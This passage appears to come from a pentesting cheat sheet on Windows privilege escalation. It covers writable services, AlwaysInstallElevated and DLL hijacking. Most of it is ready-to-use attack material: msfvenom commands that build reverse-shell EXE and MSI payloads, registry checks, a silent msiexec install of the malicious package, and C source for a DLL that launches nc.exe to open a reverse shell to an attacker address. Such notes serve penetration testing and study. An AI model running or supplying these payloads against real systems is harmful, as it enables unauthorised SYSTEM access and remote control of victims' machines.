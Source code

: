 ```text
msfvenom -p windows/shell_reverse_tcp LHOST=<ip-addr> LPORT=<port> -f exe -o First.exe
```

Finally we need to restart the service to gain access to system:

```text
sc stop <service>
sc start <service>
```

## Always Install Elevated

**If** these 2 registers are **enabled** \(value is **0x1**\), any user can **install  `.msi`** files as `NT AUTHORITY\`**`SYSTEM`**

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Creating the malicious .msi file

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT>-f msi -o shell.msi
```

### Executing the .msi

```text
msiexec /quiet /qn /i c:\users\user\documents\shell.msi
```

{% hint style="info" %}
**Note:** I'd problems while exploiting it via WIN-RM. Try another way to get shell.
{% endhint %}

## Incorrect permissions in services

A service running as `NT AUTHORITY/SYSTEM` with incorrect file permissions might allow to escalate privileges. You can replace the binary, restart the service and get system.

Sometimes services are pointing to writeable folders:

### DLL Hijacking

When we have permissions to overwrite the DLL or the DLL is missing we can create ours.

#### Code 

The following C code is an example of our malicious dll.

```text
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe c:\Temp\nc.exe -e cmd.exe <IP> <PORT>");
        ExitProcess(0);
    }
    return TRUE;
}
```
